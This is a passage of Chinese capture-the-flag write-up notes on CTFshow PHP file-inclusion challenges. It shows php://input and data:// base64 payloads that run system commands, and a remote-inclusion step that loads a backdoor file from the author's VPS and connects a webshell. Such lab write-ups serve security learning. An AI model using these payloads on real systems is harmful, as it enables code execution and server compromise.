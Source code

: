 ![image-20240425132108581](D:\Infiltration\笔记\note\图片\image-20240425132108581.png)

使用tac查看flag.php,页面无回显查看源代码

```
php://input
POST请求
<?php system("cat flag.php")?>
```

![image-20240425132233846](D:\Infiltration\笔记\note\图片\image-20240425132233846.png)

#### 解法三：远程包含

vps开启一个http服务并创建一个123.txt后门文件

![image-20240425133253543](D:\Infiltration\笔记\note\图片\image-20240425133253543.png)

包含后门文件

```
http://vps:5566/123.txt
```

![image-20240425133419339](D:\Infiltration\笔记\note\图片\image-20240425133419339.png)



使用哥斯拉连接后门，查看flag

![image-20240425133556844](D:\Infiltration\笔记\note\图片\image-20240425133556844.png)



### CTFshow-79

过滤php为???

![image-20240425134039967](D:\Infiltration\笔记\note\图片\image-20240425134039967.png)

#### 解法：base64

Base64在进行解码的时候，是4个字符一组进行解码，因此在使用base64编码绕过该限制的时候，需要自己补一些填充符，让前面需要绕过的字符串组合起来长度是4的倍数，所以这里加了很多%2b

```
data://text/plain,base64,<?php system('ls');?>
data://text/plain,base64,PD9waHAgc3lzdGVtKCdscycpOz8+%2b%2b%2b%2b
```



![image-20240425135312227](D:\Infiltration\笔记\note\图片\image-20240425135312227.png)



因为Base64刚好是4的倍数就可以不用加

```
data://text/plain;base64,<?php system('cat flag.php');?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==
```
